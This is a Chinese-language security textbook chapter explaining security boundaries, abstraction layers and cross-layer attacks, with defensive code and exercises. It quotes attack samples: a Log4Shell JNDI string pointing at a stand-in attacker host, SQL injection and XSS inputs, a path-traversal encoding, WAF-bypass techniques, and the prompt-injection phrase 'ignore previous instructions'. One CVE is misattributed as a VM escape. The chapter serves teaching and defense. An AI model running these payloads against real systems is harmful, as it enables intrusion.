



## 五、安全边界与抽象层次

### 5.1 为什么边界是安全的核心问题

在前一节中，我们讨论了信任模型——系统信任谁、信任什么。但信任本身是有范围的，而**安全边界就是信任范围的物理和逻辑体现**。理解安全边界，是从"知道有哪些漏洞"升级到"理解漏洞为什么会存在"的关键一步。

几乎所有的安全漏洞，剥去技术细节之后，都可以归结为一个根本问题：**边界被违反了**。

- SQL 注入违反了"应用代码"和"用户数据"之间的边界
- XSS 违反了"服务端内容"和"客户端脚本"之间的边界
- 提权漏洞违反了"低权限用户"和"高权限用户"之间的边界
- 沙箱逃逸违反了"隔离环境"和"宿主系统"之间的边界
- 供应链攻击违反了"可信组件"和"不可信组件"之间的边界

这种归一化的思维方式极其重要——当你面对一个全新的、从未见过的系统时，"这个系统有哪些边界、每条边界是否足够坚固"的思考框架，比"这个系统有没有我认识的漏洞"要强大得多。

### 5.2 安全边界的完整分类体系

安全边界不仅仅是"防火墙里面和外面"。一个完整的系统存在多种类型的安全边界，每一种都有不同的性质和防护要求。

#### 5.2.1 信任边界（Trust Boundary）

信任边界是不同信任级别区域之间的分界线。信任边界的一侧被假定为"可信的"，另一侧被视为"不可信的"。

**核心原则**：所有来自不可信一侧的数据、请求和实体，在穿越信任边界时都必须经过验证和净化。

典型的信任边界包括：

| 边界位置 | 可信侧 | 不可信侧 | 常见违反方式 |
|----------|--------|----------|-------------|
| 用户输入接口 | 应用程序逻辑 | 用户提交的数据 | 注入攻击、越权访问 |
| API 网关 | 后端微服务 | 外部客户端请求 | 认证绕过、参数篡改 |
| 进程间通信 | 本地进程 | 远程调用或共享内存 | 缓冲区溢出、竞态条件 |
| 浏览器沙箱 | 当前页面脚本 | 跨域资源、扩展程序 | 跨域数据泄露 |
| 虚拟机边界 | 宿主系统 | 虚拟机实例 | VM 逃逸（如 CVE-2024-21762） |

信任边界的关键特征是**不对称性**：可信侧对不可信侧的请求应始终保持怀疑，但不可信侧没有义务信任可信侧的任何声明。许多安全事件的根本原因，就是开发者错误地假设某个来源是可信的——比如认为"前端已经验证过了，后端不用再验证"。

#### 5.2.2 网络边界（Network Boundary）

网络边界是最直观的安全边界——内部网络与外部网络之间的分界线。传统安全模型的核心就是守住这条边界（"城堡护城河"模型）。



但网络边界的局限性在云计算和远程办公时代已经暴露无遗：

1. **边界模糊化**：当员工在家办公、使用 SaaS 服务、数据存储在云端时，"内部网络"的概念本身变得模糊
2. **内部威胁**：网络边界假设"内部的人都是可信的"，但内部人员（员工、外包人员）可能恶意或无意地造成安全事件
3. **横向移动**：攻击者一旦突破网络边界进入内网，传统的"护城河"模型就失效了——这就是为什么 2020 年 SolarWinds 攻击能够影响 18000 多个组织

正是这些局限性催生了零信任架构（在第四节"信任模型"中已有讨论），其本质是将安全边界从"网络位置"转移到"每次请求"——每次访问都必须经过验证，不论来源。

#### 5.2.3 进程边界（Process Boundary）

操作系统通过进程隔离来建立安全边界。每个进程拥有独立的虚拟地址空间，不能直接访问其他进程的内存。这种隔离通过硬件（MMU，内存管理单元）和操作系统内核共同实现。

进程边界的典型安全机制：

- **地址空间布局随机化（ASLR）**：随机化进程的内存布局，增加攻击者预测地址的难度
- **数据执行保护（DEP/NX）**：标记内存页为不可执行，阻止在数据区执行代码
- **权限隔离**：不同进程以不同用户身份运行，限制一个进程被攻破后的影响范围
- **沙箱（Sandbox）**：进一步限制进程可以访问的系统资源，如 seccomp、AppArmor、SELinux

**进程边界被突破的典型案例**：

- **浏览器沙箱逃逸**：Chrome、Firefox 等浏览器的渲染进程运行在沙箱中。攻击者通常需要先找到一个渲染引擎漏洞（如 V8 的类型混淆），再结合一个沙箱逃逸漏洞才能控制宿主系统。Pwn2Own 竞赛中成功的浏览器攻击通常需要两个甚至三个漏洞的链式利用
- **容器逃逸**：Docker 容器共享宿主内核，内核漏洞（如 CVE-2022-0185，堆溢出导致容器逃逸）可以直接突破容器边界
- **虚拟机逃逸**：虚拟机有独立的内核，但 hypervisor 层仍可能存在漏洞。2017 年的 PWN2OWN 上，研究人员通过一个 QEMU 漏洞实现了虚拟机逃逸

#### 5.2.4 权限边界（Privilege Boundary）

权限边界定义了不同权限级别之间的隔离。操作系统使用用户/组模型、能力（Capabilities）机制和访问控制列表（ACL）来实现权限边界。

最经典的权限边界是 Unix 的 root（UID 0）与普通用户之间的边界。在 Windows 中则是 Administrator/SYSTEM 与普通用户之间的边界。

权限边界的层次结构：

```text
系统级权限（root/SYSTEM）
    ↑ 提权漏洞的目标
服务级权限（如 www-data、nginx）
    ↑ 服务间攻击的目标
应用级权限（应用运行用户）
    ↑ 越权访问的目标
用户级权限（普通用户）
    ↑ 社工攻击的目标
匿名访问权限（未认证用户）
```

**水平越权 vs 垂直越权**：

- **水平越权**：用户 A 访问了用户 B 的数据，但两者权限级别相同。例如，修改 API 请求中的用户 ID 就能看到其他用户的订单信息。水平越权违反的是"用户边界"
- **垂直越权**：低权限用户获得了高权限操作的能力。例如，普通用户通过修改请求参数访问了管理员功能。垂直越权违反的是"权限边界"

这两种越权是 Web 应用中最常见的安全问题之一，在 OWASP Top 10 2021 中被归类为 A01:2021 - Broken Access Control（访问控制失效），位列第一。

#### 5.2.5 数据边界（Data Boundary）

数据边界是敏感数据与非敏感数据之间、不同安全级别的数据之间的分界线。数据边界的核心要求是：高安全级别的数据不能流向低安全级别的区域。

这个概念在军事领域最为严格——称为"多级安全"（Multi-Level Security, MLS）。著名的 Bell-LaPadula 模型定义了两条核心规则：

- **不上读（No Read Up）**：低安全级别的主体不能读取高安全级别的数据
- **不下写（No Write Down）**：高安全级别的主体不能向低安全级别的区域写数据

在民用系统中，数据边界的体现包括：

| 场景 | 数据边界 | 违反方式 |
|------|---------|---------|
| 数据库设计 | 用户只能查询自己的数据 | SQL 注入绕过查询限制 |
| 日志系统 | 日志中不应包含敏感信息 | 日志注入、日志泄露 |
| 数据分析 | 匿名化数据不应可被还原 | 重识别攻击（de-anonymization） |
| API 响应 | 前端不应收到后端内部字段 | 过度数据暴露（Excessive Data Exposure） |
| 备份系统 | 备份数据的访问权限应与源数据一致 | 备份文件未加密或权限过于宽松 |

#### 5.2.6 语义边界（Semantic Boundary）

语义边界是一个容易被忽略但极其重要的概念。它指的是**数据在不同上下文中含义的变化**。

经典的语义边界违反案例：

1. **类型混淆**：程序期望接收一个整数，但攻击者传入了一个字符串。如果程序没有正确处理类型转换，可能产生意外行为
2. **编码差异**：同一个字符在不同编码（UTF-8、GBK、Latin-1）下占用不同字节数，可能导致截断差异，进而产生安全问题。这在路径遍历攻击（如 `..%c0%af`）和 SQL 注入绕过中经常被利用
3. **上下文差异**：同一段数据在不同上下文中被解释为不同含义。例如 `<script>alert(1)</script>` 在 HTML 中是可执行脚本，但在数据库中只是一段普通文本。当这段数据从数据库上下文转移到 HTML 上下文时，如果没有正确转义，就会产生 XSS

### 5.3 计算机系统的抽象层次与安全

计算机系统本质上是一个由抽象层次堆叠而成的结构。每一个抽象层都为上层提供简化接口，同时隐藏下层的复杂性。**但每一层抽象都可能引入安全问题，而攻击者经常通过跨越抽象层次来找到突破口。**

#### 5.3.1 完整的抽象层次模型



#### 5.3.2 各层次的安全问题深度剖析

**应用层安全问题**

应用层是最贴近用户的层次，也是漏洞数量最多的层次。这一层的安全问题主要来自业务逻辑设计缺陷和输入处理不当。

| 漏洞类型 | 根本原因 | 典型影响 | 属于哪种边界违反 |
|----------|---------|---------|----------------|
| SQL 注入 | 数据与指令边界模糊 | 数据泄露、数据篡改、远程代码执行 | 信任边界 + 语义边界 |
| XSS（跨站脚本） | 服务端内容与客户端脚本边界模糊 | 会话劫持、钓鱼、键盘记录 | 信任边界 + 语义边界 |
| CSRF（跨站请求伪造） | 浏览器自动携带的认证凭据与用户意图边界模糊 | 以用户身份执行未授权操作 | 信任边界 |
| IDOR（不安全的直接对象引用） | 用户身份与资源所有者边界模糊 | 水平越权访问其他用户数据 | 用户边界 + 权限边界 |
| 业务逻辑漏洞 | 功能设计中的隐含假设被违反 | 优惠券重复使用、订单金额篡改 | 语义边界 |

**框架/中间件层安全问题**

框架层为开发者提供便利，但框架本身的漏洞或配置错误会影响所有使用该框架的应用。

- **ORM 注入**：ORM 层将对象操作转换为 SQL 查询。如果开发者在 ORM 中使用原生 SQL 片段或不当的拼接方式，仍然可能产生注入漏洞。框架层的抽象有时会让人产生"用了 ORM 就不会有 SQL 注入"的错误安全感
- **模板引擎注入**：服务端模板引擎（如 Jinja2、FreeMarker）如果配置不当，可能允许攻击者注入模板指令。2019 年 Citrix 的 CVE-2019-19781 就是一个模板注入导致远程代码执行的典型案例
- **序列化漏洞**：框架的序列化/反序列化机制如果处理不可信数据，可能导致远程代码执行。Java 的 Apache Commons Collections 反序列化漏洞（2015 年被发现）影响了无数 Java 应用，包括 WebLogic、Jenkins、JBoss 等

**运行时/语言层安全问题**

运行时层的漏洞通常影响面极广——因为同一运行时上的所有应用都会受到影响。

- **V8 引擎漏洞**：Chrome 和 Node.js 共用 V8 JavaScript 引擎。V8 的类型混淆漏洞（如 CVE-2023-2033）可以让攻击者在浏览器或 Node.js 进程中执行任意代码
- **JVM 沙箱绕过**：Java 的 Security Manager 提供了沙箱隔离，但历史上多次被绕过。攻击者利用 JVM 实现中的缺陷突破沙箱
- **Python pickle 反序列化**：Python 的 `pickle.load()` 可以执行任意代码。这是 Python 应用中一个持续存在的安全隐患——任何反序列化不可信数据的代码都面临远程代码执行风险

**操作系统层安全问题**

操作系统层的漏洞通常具有极高的危害性，因为内核拥有对系统资源的完全控制权。

- **内核提权**：Linux 内核的 Dirty Pipe（CVE-2022-0847）允许任何本地用户覆盖只读文件中的任意数据，从而获得 root 权限。这个漏洞影响了 Linux 5.8 到 5.16.11 的所有版本
- **协议栈漏洞**：网络协议栈的实现漏洞可以被远程利用。SMBGhost（CVE-2020-0796）是 Windows SMBv3 协议中的一个缓冲区溢出漏洞，允许远程代码执行
- **权限管理缺陷**：Windows 的令牌（Token）机制、Linux 的 capabilities 机制如果配置不当，可能允许权限绕过

**硬件/固件层安全问题**

硬件层的漏洞修复难度最大，因为它们往往需要更换物理硬件或更新固件。

- **Spectre 和 Meltdown（2018 年公开）**：利用 CPU 推测执行（Speculative Execution）的侧信道泄露内核内存数据。这类漏洞影响了过去二十年生产的几乎所有处理器，且由于根植于 CPU 微架构设计，完全修复极其困难
- **BIOS/UEFI 漏洞**：固件层的漏洞可以在操作系统启动之前执行恶意代码，使得操作系统层面的安全防护完全失效。LoJax（2018 年发现）是第一个在野利用 UEFI 固件的恶意软件
- **TPM 侧信道**：TPM（可信平台模块）芯片本身也可能受到侧信道攻击。2024 年研究人员展示了对 fTPM 的电压故障注入攻击，可以提取存储在 TPM 中的密钥

#### 5.3.3 跨层次攻击：从低层突破高层

理解抽象层次的一个核心目的是理解**跨层次攻击**——攻击者不从同一层次正面突破，而是利用更低层次的缺陷来绕过更高层次的安全控制。

经典的跨层次攻击模式：



**案例深度解析：Log4Shell 为什么是跨层次攻击的教科书**

Log4Shell（CVE-2021-44228）是一个完美的跨层次攻击案例：

1. **入口在应用层**：攻击者只是在 HTTP 请求头、用户名、搜索框等任何会被日志记录的地方注入恶意字符串 `${jndi:ldap://attacker.com/x}`
2. **触发在框架层**：Log4j 作为日志框架，在记录日志时解析了这个 JNDI 表达式
3. **利用在运行时层**：JNDI（Java 命名和目录接口）是 JVM 的一个功能，它会连接攻击者指定的 LDAP 服务器并加载远程 Java 类
4. **结果在操作系统层**：加载的恶意类以 JVM 进程的权限执行任意系统命令

这个攻击跨越了四个抽象层次，而每一层的安全控制都没有预料到这种跨层交互。应用开发者认为"日志记录是安全的"，框架开发者认为"表达式解析是有用的功能"，运行时开发者认为"JNDI 是合法的 API"——每一层单独来看都没有"错"，但组合在一起就产生了灾难性的安全漏洞。

### 5.4 边界攻击的系统化分析

#### 5.4.1 边界攻击的通用模型

所有边界攻击都可以用一个统一的模型来描述：

```text
1. 识别边界：找到系统中的信任/安全边界
2. 定位薄弱点：找到边界的防护缺陷（缺失验证、验证不完整、验证逻辑错误）
3. 构造穿越载荷：构造能够穿过边界的数据或请求
4. 利用穿越结果：利用成功穿越边界后获得的新能力
```

这个模型适用于从最简单的 XSS 到最复杂的供应链攻击。

#### 5.4.2 常见边界攻击的技术深度分析

**跨越应用层与数据层的边界——SQL 注入**

SQL 注入的本质是"数据"和"指令"之间的边界被破坏。在正常情况下，用户输入是数据，SQL 语句是指令，两者之间有清晰的分界。但当应用直接将用户输入拼接到 SQL 语句中时，这个边界就消失了。

```sql
-- 正常查询（数据和指令有清晰边界）
SELECT * FROM users WHERE id = 1;

-- 注入后（数据侵入了指令的领域）
-- 用户输入: 1 OR 1=1
SELECT * FROM users WHERE id = 1 OR 1=1;
-- 返回所有用户数据
```

防御的本质就是重建数据和指令之间的边界——参数化查询（Prepared Statement）将 SQL 模板和用户数据分开发送给数据库引擎，数据库引擎绝不会将数据部分解释为指令，从而在协议层面保证了边界的完整性。

**跨越服务端与客户端的信任边界——XSS**

Web 安全的一个基本假设是：服务器返回的 HTML 内容是可信的，浏览器会忠实地渲染和执行其中的脚本。XSS 攻击利用的就是这个信任关系——攻击者注入的恶意脚本被浏览器当作"可信的服务器内容"来执行。

```text
服务端视角：返回的 HTML = 模板 + 用户输入
浏览器视角：返回的 HTML = 来自可信服务器的内容 → 全部执行

问题：浏览器无法区分模板中的脚本和用户注入的脚本
```

防御的关键是明确数据在不同上下文中的身份——HTML 内容、HTML 属性、JavaScript 字符串、URL 参数，每种上下文需要不同的编码方式（Output Encoding），以确保数据始终保持"数据"的身份，不会被解释为"代码"。

**跨越沙箱与宿主系统的边界——沙箱逃逸**

沙箱是一种将不信任的代码限制在受控环境中运行的技术。沙箱逃逸攻击试图突破沙箱的限制，获得对宿主系统的访问权限。

沙箱逃逸的常见攻击面：

1. **系统调用过滤绕过**：沙箱通常通过 seccomp/BPF 限制可用的系统调用。攻击者寻找被遗漏的系统调用或已允许系统调用的非预期用法
2. **共享资源利用**：沙箱与宿主系统可能共享文件系统、网络、IPC 通道等资源。攻击者通过这些共享资源间接影响宿主系统
3. **内核漏洞**：沙箱的安全性最终依赖于内核的安全性。内核漏洞可以完全绕过用户空间的沙箱
4. **复杂接口漏洞**：沙箱通常需要为某些功能提供"代理"接口（如 GPU 渲染、字体解析），这些复杂的代理接口往往是漏洞的高发区

#### 5.4.3 现代系统的边界攻击新趋势

随着系统架构的演进，边界攻击也在不断变化：

| 新趋势 | 攻击场景 | 边界违反类型 |
|--------|---------|-------------|
| 微服务架构 | 服务间调用的信任链被利用 | 服务边界 |
| 云原生环境 | 容器逃逸、元数据服务 SSRF | 容器边界、租户边界 |
| API 经济 | API 认证/授权缺陷 | API 边界 |
| AI/ML 系统 | 提示注入（Prompt Injection） | 指令与数据的边界 |
| 供应链生态 | 恶意依赖包、构建系统篡改 | 信任传递边界 |
| 无服务器架构 | 事件注入、权限配置错误 | 执行环境边界 |

**提示注入（Prompt Injection）——AI 时代的边界问题**

提示注入是 AI 时代最典型的边界问题。在 LLM 应用中，存在两条关键的边界：

- **系统提示与用户输入的边界**：系统提示定义了 AI 的行为规则，用户输入是被处理的数据。当用户输入中包含"忽略之前的指令"等语句时，就是在试图违反这条边界
- **指令与数据的边界**：LLM 无法在架构层面区分"要执行的指令"和"要处理的数据"，这两者都被当作纯文本处理——这与 SQL 注入中"代码与数据边界模糊"的问题本质上相同

### 5.5 边界防御策略与实践

#### 5.5.1 边界防御的核心原则

**原则一：边界必须明确**

你无法保护一条你不了解的边界。边界防御的第一步是绘制完整的边界地图——识别系统中所有的信任边界、网络边界、权限边界和数据边界。

实践方法——边界清单模板：

```markdown
## 系统边界清单

### 信任边界
1. [ ] 客户端 → API 网关：认证方式？输入验证？
2. [ ] API 网关 → 后端服务：内部调用是否需要认证？
3. [ ] 服务 → 数据库：SQL 注入防护？最小权限连接？
4. [ ] 服务 → 第三方 API：响应验证？错误处理？

### 权限边界
1. [ ] 匿名用户可访问哪些资源？
2. [ ] 普通用户与管理员的功能分界？
3. [ ] 不同租户之间的数据隔离方式？
4. [ ] 服务账号的权限范围？

### 数据边界
1. [ ] 敏感数据（密码、密钥、PII）的存储位置？
2. [ ] 日志中是否包含敏感信息？
3. [ ] API 响应是否过度暴露内部字段？
4. [ ] 数据在传输和静态时是否加密？
```

**原则二：边界必须有多层防护**

单一的边界防护是脆弱的。纵深防御（Defense in Depth）的核心就是在每条边界上部署多层控制——即使一层被突破，后续层次仍然可以阻止或减缓攻击。

以 Web 应用的输入验证为例，纵深防御的做法是：

```text
第一层：前端验证（用户体验，但不可信赖）
    ↓
第二层：WAF 规则（通用攻击特征匹配）
    ↓
第三层：应用层输入验证（业务逻辑校验）
    ↓
第四层：参数化查询（数据库层面防护）
    ↓
第五层：数据库最小权限（即使注入成功也无法执行危险操作）
    ↓
第六层：审计日志（事后追溯和告警）
```

**原则三：边界穿越必须被记录**

安全审计的核心能力之一就是能够回答"谁在什么时候从哪里穿越了哪条边界"。每一条安全边界的穿越事件都应该被记录：

- 认证/授权成功和失败事件
- 跨域请求
- 权限变更操作
- 敏感数据访问
- 异常的边界穿越模式（如某用户突然访问了从未访问过的资源）

#### 5.5.2 边界防御的技术实现

**输入验证——重建数据与指令的边界**

输入验证是边界防御中最基础也最重要的一环。核心原则是：**在边界上，对所有来自不可信来源的数据执行白名单验证。**

```python
# 错误做法：黑名单过滤（容易被绕过）
def sanitize_input(user_input):
    blacklist = ["'", '"', ";", "--", "/*"]
    for char in blacklist:
        user_input = user_input.replace(char, "")
    return user_input

# 正确做法：白名单验证 + 参数化查询
def get_user(user_id: int) -> User:
    # 白名单：只接受整数
    if not isinstance(user_id, int) or user_id <= 0:
        raise ValueError("Invalid user ID")
    
    # 参数化查询：数据与指令在协议层面分离
    cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))
    return cursor.fetchone()
```

**输出编码——在数据进入新上下文时重建边界**

当数据从一个上下文进入另一个上下文时（如从数据库输出到 HTML），必须执行编码以维持边界：

```python
import html
import json
from urllib.parse import quote

def render_user_comment(comment: str) -> str:
    """将用户评论安全地嵌入 HTML 页面"""
    
    # HTML 正文中的用户数据 → HTML 实体编码
    safe_html = html.escape(comment)
    
    # HTML 属性中的用户数据 → HTML 属性编码
    safe_attr = html.escape(comment, quote=True)
    
    # JavaScript 字符串中的用户数据 → JSON 编码
    safe_js = json.dumps(comment)
    
    # URL 参数中的用户数据 → URL 编码
    safe_url = quote(comment, safe='')
    
    return f'''
    <div>{safe_html}</div>
    <input value="{safe_attr}">
    <script>var data = {safe_js};</script>
    <a href="/search?q={safe_url}">搜索</a>
    '''
```

**认证与授权——在每次请求时验证边界**

认证回答"你是谁"，授权回答"你能做什么"。两者共同构成了权限边界的守卫。

```python
# 认证中间件：每次请求都验证身份
def auth_middleware(request):
    token = request.headers.get("Authorization")
    if not token:
        return Response(status=401)
    
    user = verify_token(token)  # 验证 JWT/Session
    if not user:
        return Response(status=401)
    
    request.user = user  # 附加到请求上下文

# 授权检查：每次访问都验证权限
def check_permission(user, resource, action):
    # 完全中介：不缓存决策，每次实时评估
    permissions = get_effective_permissions(user)
    if action not in permissions.get(resource.type, []):
        log_security_event(
            user=user.id,
            action=action,
            resource=resource.id,
            result="denied"
        )
        raise PermissionDenied()
```

#### 5.5.3 边界监控与异常检测

边界防御的最后一道防线是监控——检测是否有边界穿越事件超出了正常模式。

边界异常的典型信号：

| 异常信号 | 可能的攻击 | 检测方法 |
|----------|----------|---------|
| 单一 IP 大量认证失败 | 暴力破解 | 频率阈值告警 |
| 用户从异常地理位置登录 | 账户接管 | 地理位置基线对比 |
| 服务间调用模式突变 | 横向移动 | 调用图异常检测 |
| 短时间内大量数据库查询 | 数据窃取 | 查询量基线对比 |
| 异常时间的管理员操作 | 内部威胁 | 时间基线 + 行为分析 |
| API 响应大小异常增大 | 数据过度暴露 | 响应大小监控 |

### 5.6 抽象层次思维的实战应用

#### 5.6.1 "向下看"思维：当高层无解时到低层寻找答案

安全思维的一个重要技巧是**当在一个层次无法解决问题时，尝试到更低的抽象层次寻找方案**。

**案例：Web 应用防火墙（WAF）绕过**

WAF 运行在应用层，通过分析 HTTP 请求的特征来拦截攻击。当攻击者发现 WAF 能够识别标准的 SQL 注入载荷时，他的思路不应该是"换一种 WAF 认不出的写法"（在同一层次搏斗），而是"WAF 依赖什么来判断——这个依赖在更低层次是否成立"。

例如，WAF 分析的是 HTTP 请求体中的字符串，但如果：

- 使用 HTTP 参数污染（HPP），将恶意载荷拆分到多个同名参数中
- 使用编码差异，如 Unicode 规范化、UTF-7 编码
- 使用传输编码分块（Transfer-Encoding: chunked），WAF 和后端服务器对分块边界的解析不一致
- 使用 HTTP/2 协议差异，某些 WAF 不支持 HTTP/2 的二进制帧解析

这些绕过技术的本质都是利用了"WAF 对数据的解析"和"后端应用对数据的解析"之间的不一致性——攻击者利用的是两个系统在语义边界上的差异。

#### 5.6.2 "向上看"思维：利用低层能力绕过高层限制

反过来，攻击者也可以利用低层的能力来绕过高层的安全限制。

**案例：利用操作系统特性绕过应用层访问控制**

假设一个文件服务器应用禁止用户访问以 `.conf` 结尾的文件。应用层的代码检查文件名：

```python
if filename.endswith('.conf'):
    raise AccessDenied()
```

但如果操作系统支持短文件名（8.3 格式），攻击者可能通过 `config~1.conf` → `CONFIG~1.CONF` 的方式绕过。更进一步，如果 Web 服务器和操作系统对 URL 路径的大小写敏感性不同（Windows 文件系统不区分大小写，但 Linux 的区分），也可能产生绕过。

这个案例说明：**安全检查必须考虑到其依赖的所有抽象层的行为差异**。

#### 5.6.3 "跨层思考"方法论

将抽象层次思维系统化，形成一套可复用的分析方法：

```text
步骤一：识别系统的所有抽象层次
    - 这个系统涉及哪些技术栈？每一层分别是什么？

步骤二：绘制数据流图，标注边界穿越点
    - 数据在哪些层次之间传递？每经过一层，数据的"身份"是否改变？

步骤三：检查每条边界的防护措施
    - 每条边界上有哪些验证/过滤/编码/授权机制？
    - 这些机制是否覆盖了所有可能的穿越方式？

步骤四：检查层间的语义一致性
    - 不同层次对同一数据的解析是否一致？
    - 编码/解码、序列化/反序列化、协议解析是否存在差异？

步骤五：评估跨层攻击路径
    - 是否存在从低层绕过高层控制的路径？
    - 是否存在从高层影响低层行为的方式？
```

### 5.7 常见误区

**误区一：网络边界 = 安全边界**

许多组织将安全投入集中在网络边界上（防火墙、IDS/IPS），忽略了其他类型的边界。现代攻击中，攻击者经常通过钓鱼邮件、供应链投毒、内部人员等方式直接在"内部"发起攻击，完全绕过网络边界。

**纠正**：安全边界是多维度的——网络边界只是其中一种。信任边界、权限边界、数据边界、语义边界同样需要防护。

**误区二：抽象层次之间是互相隔离的**

一些开发者认为"应用层的安全问题不会影响操作系统层"。事实上，抽象层之间的隔离是不完全的——内核漏洞可以让用户空间的所有安全措施失效，而应用层的漏洞（如缓冲区溢出）可以直接获得操作系统级别的权限。

**纠正**：抽象层次之间存在信息和控制流的传递，攻击可以通过这些通道跨越层次。安全分析必须考虑跨层攻击路径。

**误区三：使用了框架/库就自动获得了边界防护**

"我用了 ORM 所以不会有 SQL 注入""我用了 React 所以不会有 XSS"——这些想法是危险的。框架提供的是工具，不是保证。ORM 如果使用原生 SQL 片段仍然可能有注入；React 如果使用 `dangerouslySetInnerHTML` 仍然可能有 XSS。

**纠正**：理解框架的安全机制及其局限性，不要盲目信任抽象。在安全边界上，"信任但验证"比"完全信任"更安全。

**误区四：边界越多越安全**

盲目增加安全边界（增加防火墙、增加代理层、增加验证步骤）不仅增加系统复杂性，还可能因为配置错误引入新的攻击面。每一条新的边界都是需要维护和监控的——如果管理不当，新增的边界可能比原有的边界更脆弱。

**纠正**：边界应该是"必要且充分"的。在关键的信任交叉点建立边界，并确保每条边界都有明确的防护措施和监控机制。质量比数量更重要。

**误区五：只关注技术边界，忽略人的边界**

社会工程学攻击之所以有效，是因为它绕过了所有的技术边界——攻击者直接说服人类操作员执行操作。Kevin Mitnick 曾说："人为因素才是真正安全链中最薄弱的一环。"

**纠正**：安全边界必须包含人这一环节。安全培训、审批流程、双人复核机制、最小权限原则都是"人的边界"的一部分。

### 5.8 实战练习

#### 练习一：绘制你熟悉系统的边界地图

选择一个你熟悉的系统（可以是你开发的应用、你使用的 SaaS 服务、或者你的家庭网络），绘制完整的边界地图：

1. 列出所有信任边界、网络边界、权限边界、数据边界
2. 标注每条边界的防护措施
3. 识别防护最薄弱的 3 条边界
4. 为每条薄弱边界设计加强方案

#### 练习二：边界攻击分析

选择以下真实漏洞之一，分析其边界违反的本质：

- **Log4Shell（CVE-2021-44228）**：跨越了哪些抽象层次？数据在每一层的"身份"是什么？
- **Heartbleed（CVE-2014-0160）**：违反了什么边界？为什么 TLS 实现中会存在这种边界模糊？
- **SolarWinds（2020 年供应链攻击）**：攻击者是如何穿越"可信软件"与"恶意代码"之间的边界的？
- **Spectre（CVE-2017-5753）**：推测执行打破了什么边界？为什么操作系统层面的防护无法完全解决问题？

#### 练习三：跨层次攻击推演

给定以下场景，尝试推演可能的跨层次攻击路径：

场景：一个运行在 Docker 容器中的 Node.js Web 应用，使用 PostgreSQL 数据库，部署在 AWS EC2 上，前端使用 React。

思考方向：
- 如果应用层存在 XSS，能否影响到容器层？
- 如果 PostgreSQL 存在未授权访问，能否影响到宿主系统？
- 如果 AWS 元数据服务（169.254.169.254）可被 SSRF 访问，能获得什么？
- 如果容器以 privileged 模式运行，意味着什么？

### 5.9 进阶阅读

- **Saltzer 和 Schroeder 的安全设计原则（1975 年）**：《The Protection of Information in Computer Systems》——信息安全领域的奠基性论文，提出了经济机制、完全中介、开放设计等核心原则
- **Jerome Saltzer 的"端到端论证"**：安全机制应该尽可能在通信的端点实现，而不是依赖中间节点——这个思想深刻影响了现代端到端加密和零信任架构的设计
- **Ross Anderson 的《Security Engineering》**：系统安全工程的经典教材，对安全边界、信任模型、攻击者行为有深入分析
- **NIST SP 800-207 零信任架构**：零信任的权威技术指南，详细描述了如何在边界模糊的现代网络中实施安全控制
- **OWASP ASVS（应用安全验证标准）**：提供了完整的应用安全边界检查清单，可用于系统化地评估应用的边界防护
- **MITRE ATT&CK 框架**：理解攻击者如何系统性地穿越安全边界——从初始访问到最终目标的每一步都涉及边界违反

> **关键认知**：安全边界和抽象层次不是静态的图纸，而是动态的思维模型。优秀的安全从业者在审视任何系统时，都会本能地在脑中浮现边界地图——哪里是信任的分界线，哪里是权限的闸门，哪里是数据流的交叉点。这种思维习惯一旦建立，将成为你分析任何安全问题的基础框架。
